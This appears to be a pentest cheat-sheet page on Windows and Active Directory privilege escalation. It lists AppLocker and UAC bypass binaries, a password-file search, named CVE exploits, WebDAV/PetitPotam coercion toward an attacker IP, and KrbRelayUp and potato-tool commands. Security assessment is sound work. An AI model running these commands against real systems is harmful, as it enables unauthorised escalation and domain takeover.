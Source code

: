 ```yaml
---
title: "Low access (Privilege escalation)"
description: "Low access (Privilege escalation) techniques and commands for Active Directory security assessment."
---
```

# Low access (Privilege escalation)
## Bypass Applocker *Low access (without applocker)*{: .highlight}
- Get-Applocker infos
  - `Get-ChildItem -Path HKLM:\SOFTWARE\Policies \Microsoft\Windows\SrpV2\Exe (dll/msi/...)`
- files in writables paths
  - C:\Windows\Temp
  - C:\Windows\Tasks
- `installutil.exe /logfile= /LogToConsole=false /U C:\runme.exe`
- `mshta.exe my.hta`
- `MsBuild.exe pshell.xml`

## UAC bypass *Admin*{: .highlight}
- `Fodhelper.exe`
- `wsreset.exe`
- `msdt.exe`

## Auto Enum *Admin*{: .highlight}
- `winPEASany_ofs.exe`
- `.\PrivescCheck.ps1;  Invoke-PrivescCheck -Extended"`

## Search files *User Account*{: .highlight}
- `findstr /si 'pass' *.txt *.xml *.docx *.ini`

## Exploit *Admin*{: .highlight}
- SMBGhost CVE-2020-0796 @CVE@
- CVE-2021-36934 (HiveNightmare/SeriousSAM) @CVE@
  - `vssadmin list shadows`

## Webdav *HTTP Coerce*{: .highlight}
- open file <file>.searchConnector-ms
  - `dnstool.py -u <domain>\<user> -p <pass> --record 'attacker' --action add --data <ip_attacker> <dc_ip>`
    - `petitpotam.py -u '<user>' -p <pass> -d '<domain>' "attacker@80/random.txt" <ip>`

## Kerberos Relay *Admin*{: .highlight}
- `KrbRelayUp.exe relay -Domain <domain> -CreateNewComputerAccount -ComputerName <computer$> -ComputerPassword <password>`
  - `KrbRelayUp.exe spawn -m rbcd -d <domain> -dc <dc> -cn <computer_name>-cp <omputer_pass>`

## From Service account (SEImpersonate) *Admin*{: .highlight}
- RoguePatato @CVE@
- GodPotato @CVE@
- PrintSpoofer @CVE@
- RemotePotato0